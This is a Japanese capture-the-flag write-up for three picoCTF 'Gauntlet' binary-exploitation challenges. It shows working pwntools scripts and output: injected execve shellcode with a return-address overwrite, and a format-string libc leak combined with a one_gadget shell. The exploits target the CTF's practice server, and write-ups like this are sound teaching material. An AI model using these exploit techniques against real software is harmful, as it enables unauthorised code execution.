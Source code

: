 ## tl;dr

FSB, BOF, ret2libc

## プログラム

1-3 で共通する点と、異なる点を挙げます。

### 共通する点

まず、プログラムは以下のような内容です。ユーザ関数は `main` のみです。

- 64 bit ELF x86_64
- Heap 上で入力を受け取る
- 入力された内容を出力する ← **Format String Bug!!**
- もう一度同じ配列で入力を受け取る
- 入力した配列を、Stack 上の配列に `strcpy` でコピー ← **Buffer Over Flow!!**

今回は、入力からリターンアドレスまでの offset は 120 文字です。
なお、コピーに `strcpy` を使う訳なので、payload に NULL バイトを入れるとそれ以降が無効になる事に注意です。

次に、セキュリティ機構について。

- Partial RELRO
- Stack Smash Protection が無効
- PIE が無効

pwn の問題において、ASLR は全て有効なものと考えたおいた方が良いです。

### 異なる点

- 1 はスタック上のコピー先のアドレスを吐いてくれる
- 2 までは NX bit が無効だが、3 は有効 (i.e. shellcode はダメになる)

## 解法

### Gauntlet 1 (30pts)

NX bit が無効な上、入力した配列のアドレスも吐いてくれるので、shellcode を入力した上で BOF でリターンアドレスを入力先に書き換えるとシェルが起動します。

簡単ですね！

```python
from pwn import *
elf=context.binary=ELF("./vuln")
#p=process("./vuln")
p=remote("mercury.picoctf.net",65502)
addr=int(p.recvline(),16)

payload=b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x99\x0f\x05"
payload+=b"A"*(120-len(payload))
payload+=p64(addr)

p.sendline(payload)
p.sendline(payload)
p.interactive()
```

### Gauntlet 2 (50pts)

多分 FSB でアドレスを特定して shellcode に飛ばせばいいんですが、リモートだと上手く行きませんでした。

vuln が main 以外の関数だったら良かったんですが、恐らく libc の関係です。うーん

という事で、上位互換の Gauntlet 3 を解いてよしとしましょう。3 は NX bit が有効なので、そちらを解ければ 2 も解けます。

### Gauntlet 3 (80pts)

まず、1 回目の入力で FSB を利用して libc base を特定しましょう。
main 関数のリターンアドレスは `__libc_start_main` 内部ですから、その値が分かれば libc のバージョンも分かります。今回は `%23$p` で特定できます。

```
$ nc mercury.picoctf.net 15887
%23$p
0x7f5de9a61bf7
```

あとは、[libc database](https://libc.blukat.me/) に投げると当該 libc をダウンロードできます。libc が分かると、実際のアドレスから libc 内の offset を引く事により libc base が特定できます。

さて、あとは BOF でリターンアドレスを書き換える訳ですが、NULL を途中に入れるとダメなのでアドレスは 1 つまでしか入れられません。普通に ROP をしようとすると、`pop rdi` などを挟まないといけないため、途中で終わってしまいます。どうしよう？

→ **one-gadget RCE**

one-gadget RCE とは、libc 内に含まれる `execve("/bin/sh",NULL,NULL)` を使ってシェルを起動する事です。

[ツール](https://github.com/david942j/one_gadget) を使うと簡単に調べられます。ただ、レジスタやスタックの状態によって上手く行く場合と行かない場合があります。

```
$ one_gadget libc6_2.27-3ubuntu1.4_amd64.so 
0x4f3d5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f432 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a41c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

今回は、2 番目の gadget で上手く行きました。

以上より、無事にシェルを起動できました。

```python
from pwn import *
elf=context.binary=ELF("./vuln")
#libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")
libc=ELF("./libc6_2.27-3ubuntu1.4_amd64.so")
p=process("./vuln")
p=remote("mercury.picoctf.net",15887)

payload=b"%23$p"
p.sendline(payload)
#addr=int(p.recvline(),16)-0x270b3
addr=int(p.recvline(),16)-0x21bf7
print(hex(addr))
payload=b"A"*120
payload+=p64(addr+0x4f432)
p.sendline(payload)
p.interactive()
```

と、これで 3 が解けたので 2 も解けました。これで 80pts って厳しくない？